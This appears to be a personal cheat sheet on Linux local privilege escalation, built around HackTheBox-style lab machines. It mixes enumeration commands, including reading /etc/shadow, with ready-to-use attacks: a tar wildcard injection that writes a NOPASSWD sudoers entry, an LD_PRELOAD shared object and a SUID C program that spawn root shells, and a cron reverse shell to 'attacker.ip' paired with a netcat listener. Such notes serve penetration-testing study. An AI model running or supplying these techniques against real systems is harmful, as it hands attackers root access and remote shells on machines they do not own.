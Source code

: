 #linux/LPE
# Enumeration
* `hostname`
* `uname -a`
* `cat /proc/version`
* `cat /etc/issue`
* `ps -A`
* `ps axjf` - tree view
* `ps aux` - all processes
* `env`
* `id <username>`
* `cat /etc/passwd` - list of users
* `cat /etc/shadow` - password hashes
	   * Detect hash type in `/etc/shadow` using `grep ENCRYPT_METHOD /etc/login.defs`
* `history`
* `ifconfig`
* `ip route`
* `netstat -a` - all open ports, `netstat -at` or `netstat -au` - tcp/udp, `nestat -l` - listening mode
* `netstat -tp`: list connections with the service name and PID information
* `find / -writable -type d 2>/dev/null` : Find world-writeable folders
* `find / -perm -o x -type d 2>/dev/null` : Find world-executable folders
* `find / -perm -u=s -type f 2>/dev/null`: Find files with the SUID bit
* `find / -user root -perm -4000 -exec ls -ldb {} \; 2>/dev/null` SUID
* `find / -user root -perm -6000 -exec ls -ldb {} \; 2>/dev/null` SGID
* `find / -type f -name ".*" -exec ls -l {} \; 2>/dev/null | grep htb-student` - file all hidden files
* `find / -type d -name ".*" -ls 2>/dev/null` - all hidden dirs
* `ls -l /tmp /var/tmp /dev/shm` - tmp files
* Installed packages
```bash
apt list --installed | tr "/" " " | cut -d" " -f1,3 | sed 's/[0-9]://g' | tee -a installed_pkgs.list
```
* configs
```bash
find / -type f \( -name *.conf -o -name *.config \) -exec ls -l {} \; 2>/dev/null
```
* scripts
```bash
find / -type f -name "*.sh" 2>/dev/null | grep -v "src\|snap\|share"
```

##### Groups
adm
Members of the adm group are able to read all logs stored in /var/log. 

Disk
Users within the disk group have full access to any devices contained within /dev, such as /dev/sda1,


##### Wildcard abuse
tar exampl
```bash
# crontab
*/01 * * * * cd /home/htb-student && tar -zcf /home/htb-student/backup.tar.gz *
# abusing
htb-student@NIX02:~$ echo 'echo "htb-student ALL=(root) NOPASSWD: ALL" >> /etc/sudoers' > root.sh
htb-student@NIX02:~$ echo "" > "--checkpoint-action=exec=sh root.sh"
htb-student@NIX02:~$ echo "" > --checkpoint=1
```

##### Restricted shell
https://vk9-sec.com/linux-restricted-shell-bypass/
```bash
ssh htb-user@10.129.205.109 -t "bash --noprofile"
```
##### Automated tools
- **LinPeas**: [https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS)
- **LinEnum:** [https://github.com/rebootuser/LinEnum](https://github.com/rebootuser/LinEnum)[](https://github.com/rebootuser/LinEnum)
	* `wget https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh`
- **LES (Linux Exploit Suggester):** [https://github.com/mzet-/linux-exploit-suggester](https://github.com/mzet-/linux-exploit-suggester)
- **Linux Smart Enumeration:** [https://github.com/diego-treitos/linux-smart-enumeration](https://github.com/diego-treitos/linux-smart-enumeration)
- **Linux Priv Checker:** [https://github.com/linted/linuxprivchecker](https://github.com/linted/linuxprivchecker)
## psspy
Spy on running process to find passed function arguments like passwords
https://github.com/DominicBreuker/pspy/releases/download/v1.2.0/pspy64s
#### Kernel exploits
* https://github.com/The-Z-Labs/linux-exploit-suggester
* https://www.cvedetails.com/
* https://github.com/dirtycow/dirtycow.github.io/wiki/PoCs
#### sudo
* run `sudo -l`
* Check binaries at https://gtfobins.github.io/

1. Check for LD_PRELOAD (with the env_keep option)
2. Write a simple C code compiled as a share object (.so extension) file
	```c
#include <stdio.h>  
#include <sys/types.h>  
#include <stdlib.h>  
  
void _init() {  
unsetenv("LD_PRELOAD");  
setgid(0);  
setuid(0);  
system("/bin/bash");  
}
```
`gcc -fPIC -shared -o shell.so shell.c -nostartfiles`
3. Run the program with sudo rights and the LD_PRELOAD option pointing to our .so file
`sudo LD_PRELOAD=/home/user/ldpreload/shell.so find`
https://rafalcieslak.wordpress.com/2013/04/02/dynamic-linker-tricks-using-ld_preload-to-cheat-inject-features-and-investigate-programs/
#### SUID
1. c will list files that have SUID or SGID bits set.
2. Check gtfobins
#### Capabilities
1. `getcap -r / 2>/dev/null`
2. Check gtfobins
#### Cron
1. `cat /etc/crontab`
2. Modify available cron script and add your code there: 
```bash
bash -i >& /dev/tcp/attacker.ip/6666 0>&1   
```
3. Listen on attacker machine: `nc -nlvp 6666`

#### [[NFS]]
List mountable devices `cat /etc/exports`

On attacker machine: 
`showmount -e <ip>`
`mount -o rw <ip>:/backups /tmp/bd`

Create executable with SUID set and run on attacker machine:
```c
int main(){
setgid(0);
setuid(0);
system("/bin/bash");
return 0;
}
```
## Local ports
Show ports in use:
```bash
ss -tnl

ss -tunlp 
```
Display default service for each port in use:
```bash
ss -tl
```
Discover open ports and services:
```shell
netstat -tulpn | grep LISTEN
```
## Case 1. Bash
```bash
if [[ $DB_PASS == $USER_PASS ]]; then
	/usr/bin/echo "Password confirmed!"
else
	/usr/bin/echo "Password confirmation failed!"
exit 1
fi
```
This is due to the use of == inside [[ ]] in Bash , which performs pattern matching rather than
a direct string comparison; more on this can be found https://mywiki.wooledge.org/BashPitfalls#if_.5B.5B_.24foo_.3D_.24bar_.5D.5D_.28depending_on_intent.29
## Case 2. tar unarchive wildcard
https://www.helpnetsecurity.com/2014/06/27/exploiting-wildcards-on-linux/?ref=blog.tryhackme.com